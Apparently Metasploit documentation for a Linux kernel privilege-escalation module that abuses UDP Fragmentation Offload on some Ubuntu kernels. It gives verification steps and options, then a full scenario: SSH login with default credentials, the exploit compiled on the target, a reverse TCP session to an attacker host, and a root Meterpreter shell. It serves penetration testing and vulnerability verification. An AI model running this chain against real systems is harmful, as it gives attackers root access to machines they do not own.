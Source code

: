 ## Vulnerable Application

This module attempts to gain root privileges on Linux systems by abusing UDP Fragmentation Offload (UFO).
  
The bug was initially introduced in October 2005 and patched in September 2017, potentially affecting a large
number of kernels; however this exploit targets only systems using Ubuntu (Trusty / Xenial) kernels 
4.4.0-21 <= 4.4.0-89 (Trusty), and 4.4.0-81 <= 4.8.0-58 (Xenial), including Linux distros based on Ubuntu
such as Linux Mint.

### Disabling SMAP

[Original Instructions](https://github.com/rapid7/metasploit-framework/pull/9884#issuecomment-389607805)

To disable `SMAP` on a system, edit `/etc/default/grub` and add `nosmap` to the `GRUB_CMDLINE_LINUX_DEFAULT` line.
Next, `sudo update-grub`, and reboot.

To verify SMAP has been disabled, `grep smap /proc/cpuinfo` and nothing should be returned.

## Verification Steps

  1. Start msfconsole
  2. Get a shell on a vulnerable box
  3. Do: ```use exploit/linux/local/ufo_privilege_escalation```
  4. Do: ```set session [#]```
  5. Do: ```run```
  6. You should get a root shell.

## Options

  **WritableDir**

  A folder we can write files to.  Defaults to /tmp

  **COMPILE**
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to Auto

## Compiled Executables

The module makes use of a pre-compiled exploit executable to be
used when `gcc` is not available on the target host for live compiling,
or `COMPILE` is set to `False`.

The executable was cross-compiled with [musl-cross](https://s3.amazonaws.com/muslcross/musl-cross-linux-6.tar).

```bash
./x86_64-linux-musl-gcc -o exploit.out -pie -static exploit.c
```

## Scenarios

### Ubuntu 14.04.5 4.4.0-31-generic x64 Desktop

#### Initial Access

```
resource (ubuntu.rb)> use auxiliary/scanner/ssh/ssh_login
resource (ubuntu.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (ubuntu.rb)> set username ubuntu
username => ubuntu
resource (ubuntu.rb)> set password ubuntu
password => ubuntu
resource (ubuntu.rb)> exploit
[+] 2.2.2.2:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare) Linux ubuntu-desktop-14 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:07:32 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 1 opened (1.1.1.1:45819 -> 2.2.2.2:22) at 2018-04-03 20:58:32 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Escalate

In this scenario, gcc is installed so we can live compile on the system.

```
msf5 auxiliary(scanner/ssh/ssh_login) > use exploit/linux/local/ufo_privilege_escalation 
msf5 exploit(linux/local/ufo_privilege_escalation) > set verbose true
verbose => true
msf5 exploit(linux/local/ufo_privilege_escalation) > set session 1
session => 1
msf5 exploit(linux/local/ufo_privilege_escalation) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf5 exploit(linux/local/ufo_privilege_escalation) > exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 1.1.1.1:4444 
[+] Linux kernel version 4.4.0-31-generic is vulnerable
[*] Checking if SMAP is enabled ...
[+] SMAP is not enabled
[+] System architecture x86_64 is supported
[+] Unprivileged user namespaces are permitted
[+] gcc is installed
[*] Live compiling exploit on system...
[*] Writing '/tmp/.4UnI1EFL.c' (28356 bytes) ...
[*] Max line length is 65537
[*] Writing 28356 bytes in 2 chunks of 57414 bytes (octal-encoded), using printf
[*] Next chunk is 43454 bytes
[*] Writing '/tmp/.S6G2g9rnUj' (207 bytes) ...
[*] Max line length is 65537
[*] Writing 207 bytes in 1 chunks of 629 bytes (octal-encoded), using printf
[*] Launching exploit ...
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (857352 bytes) to 2.2.2.2
[*] [.] starting
[*] [.] checking kernel version
[*] [.] kernel version '4.4.0-31-generic' detected
[*] [~] done, version looks good
[*] [.] checking SMEP and SMAP
[*] [~] done, looks good
[*] [.] setting up namespace sandbox
[*] [~] done, namespace sandbox set up
[*] [.] KASLR bypass enabled, getting kernel addr
[*] [.] trying /proc/kallsyms...
[*] [.] trying /boot/System.map-4.4.0-31-generic...
[*] [-] open/read(/boot/System.map-4.4.0-31-generic)
[*] [.] trying syslog...
[*] [~] done, kernel addr:   ffffffff81000000
[*] [.] commit_creds:        ffffffff8109d760
[*] [.] prepare_kernel_cred: ffffffff8109da40
[*] [.] SMEP bypass enabled, mmapping fake stack
[*] [~] done, fake stack mmapped
[*] [.] executing payload ffffffff8104516a
[*] [~] done, should be root now
[*] [.] checking if we got root
[*] [+] got r00t ^_^
[*] Cleaning up /tmp/.S6G2g9rnUj and /tmp/.4UnI1EFL ...
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:60474) at 2018-07-21 13:35:49 -0400

meterpreter > sysinfo
Computer     : 2.2.2.2
OS           : Ubuntu 14.04 (Linux 4.4.0-31-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > 
```
